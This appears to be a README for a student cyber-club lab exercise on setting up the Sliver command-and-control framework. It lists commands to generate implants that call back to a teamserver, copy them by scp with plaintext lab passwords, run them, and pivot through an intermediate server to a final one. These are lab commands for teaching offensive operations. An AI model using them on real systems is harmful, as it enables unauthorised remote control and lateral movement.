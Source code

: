 # Cyber Ops Unit Sliver Setup
All the commands and files needed to set up the exercise, reminder that this exercise will **not** work over the TAMU network (because we can't port forward without access to the routers) and will have to be done over hotspot, where everyone will (probably) be on the same subnet, meaning they can directly SSH to the first machine

Make sure to run `sudo systemctl start sliver.service` to get Sliver working

Commands used:\
Generate Sliver Implant: `generate --os linux --arch arm64 --name [Implant Name] --http [IP of Teamserver]`\
Copy over to Intermediate server: `scp [Implant Name] aeverwooddesktop@[IP of Intermediate Server]:/home/aeverwooddesktop/Documents` (Password is 'password')\ 
Run Implant: `./[Implant Name] &`\
View sessions: `sessions`\
Use the Implant: `use [session number]`\
Create a pivot through that implant: `pivots tcp --lport [Pivot Port]`\
Generate an implant for that pivot: `generate --os linux --arch arm64 --tcp-pivot [IP Address of Intermediate Server:[Pivot Port] --name [Pivot Implant Name]`\
Upload that implant to his desktop with the upload command: 
Use our implant to scp it over to the Final Server: `scp [Pivot Implant Name] aeverwooddesktop@[IP of Final Server]:/home/aeverwooddesktop/Documents` (Password is 'temple435')`\
